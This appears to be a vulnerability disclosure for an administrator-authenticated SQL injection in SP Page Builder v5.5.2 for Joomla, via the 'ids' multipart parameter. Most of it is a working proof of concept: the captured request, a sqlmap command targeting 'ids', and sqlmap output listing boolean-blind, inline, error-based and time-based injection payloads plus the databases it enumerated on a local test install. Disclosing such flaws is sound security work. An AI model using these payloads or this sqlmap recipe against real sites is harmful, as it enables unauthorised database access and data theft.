

# SQL injection in SP Page Builder v5.5.2 for Joomla

**CVE Link:** Pending

**SP Page Builder:** https://extensions.joomla.org/extension/sp-page-builder/

## Introduction
An authenticated (administrator) SQL injection vulnerability exists in the SP Page Builder v5.5.2 via the 'ids' parameter in a multipart request in the Pages section for Joomla.

## POC
To exploit this vulnerability go to 'SP Page Builder >> Pages >> Page >> Select >> Bulk Actions >> Publish >> Apply' and save the publication request (req.txt).



**HTTP Request:**
```
POST /administrator/index.php?option=com_sppagebuilder&task=/editor.pages HTTP/1.1
Host: localhost:8080
Content-Length: 334
sec-ch-ua-platform: "Linux"
X-CSRF-Token: 0bb3070a79cefd045ffe263334b5502a
Accept-Language: en-GB,en;q=0.9
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuBxIMB1sdeoLrZ21
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/administrator/index.php?option=com_sppagebuilder&view=editor&tmpl=component
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; 1dbcca15c61d69pcd85efbffb29e8e7e=6044bc4a172a990cd71d5f4ac32c4d6f; abe5d7947ca86d62155a0708f02f4q11=c2551dedd7cc06be535c90139c8b2283
Connection: keep-alive

------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1
------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="type"

published
------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="_method"

PATCH
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--
```

**Exploit:**
```
ubuntu@host:~$ python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql --batch --threads=10 -p 'ids'

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: MULTIPART ids ((custom) POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

(SELECT (CASE WHEN (8275=8275) THEN 1 ELSE (SELECT 5102 UNION SELECT 6393) END))
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: inline query
    Title: Generic inline queries
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

(SELECT CONCAT(CONCAT(0x7176786a71,(CASE WHEN (1068=1068) THEN 0x31 ELSE 0x30 END)),0x71707a7171))
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1 AND GTID_SUBSET(CONCAT(0x7176786a71,(SELECT (ELT(4442=4442,1))),0x71707a7171),4442)
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundaryuBxIMB1sdeoLrZ21
Content-Disposition: form-data; name="ids"

1 AND (SELECT 9458 FROM (SELECT(SLEEP(5)))lJsm)
------WebKitFormBoundaryuBxIMB1sdeoLrZ21--
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
